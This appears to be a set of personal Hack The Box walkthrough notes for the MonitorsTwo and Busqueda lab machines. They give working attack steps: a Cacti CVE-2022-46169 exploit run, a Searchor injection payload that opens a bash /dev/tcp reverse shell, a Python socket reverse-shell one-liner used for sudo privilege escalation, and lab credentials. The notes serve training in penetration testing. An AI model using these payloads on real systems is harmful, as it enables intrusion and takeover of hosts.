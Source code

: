 # HTB_Machines_Easy

## MonitorsTwo
1. Observe opened ports
    - `sudo nmap <ip>`
        - 22/tcp open ssh
        - 80/tcp open http
2. Observe website (http is open)
    - URL = 10.10.11.211
        -  login screen
        -  Cacti version 1.2.22
            -  search for the vulns
                -  CVE-2022-46169 (https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)
3. Exploit the CVE-2022-46169 vuln
    - download the exploit script
        - `git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22`
    - `nc -nlvp 443`
    - `python3 CVE-2022-46169.py  -u http://<ip> --LHOST=<local_IP> --LPORT=443`
        - LHOST can be obtained with `ifconfig` -> tun0 IP
    - explore the reverse shelled connection
        - `whoami` `ls -l /`
        - `ls -la /`
            - we can see the file ".dockerenv" -> we are inside Docker container
        - `cat entrypoint.sh`
            >mysql --host=db --user=root --password=root cacti -e "show tables"

        - `mysql --host=db --user=root --password=root cacti -e "show tables"`


## Busqueda
1. Reco
`sudo nmap -sVC 10.10.11.208`
    - sudo nano /etc/hosts
        - 10.10.11.208  searcher.htb
2. Weaponisation
App is running Searchor v2.4.0 which has vuln
![](https://hackmd.io/_uploads/S1qlltUqh.png)

3. Exploitation
- as a search value, insert RS inside it:
    - `nc -nlvp 4444`
    - `'),__import__('os').system('bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"')#`

4. User flag
    - cd
    - cat user.txt

5. Root flag
    
    ![](https://hackmd.io/_uploads/HkC_MK8qn.png)
    - UN: cody
    - PW: jh1usoih2bkjaspwe92 
- SSH connect
    - ssh svc@10.10.11.208
        - PW: jh1usoih2bkjaspwe92
    - we can edit the python script file
        - ![](https://hackmd.io/_uploads/SyKJVFIqn.png)
- PE
    - [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/)
        - `import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",<port>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")`
    - cd
        - `nano full-checkup.sh`
            - ![](https://hackmd.io/_uploads/HyyBHKLq3.png)

```
#!/usr/bin/python3
import socket,os,pty;s=socket.socket();s.connect(("10.10.14.12",1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```
- `chmod +x full-checkup.sh`
    - LOCAL machine: `nc -nlvp <port>`
    - `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`

![](https://hackmd.io/_uploads/S13UdFU9h.png)


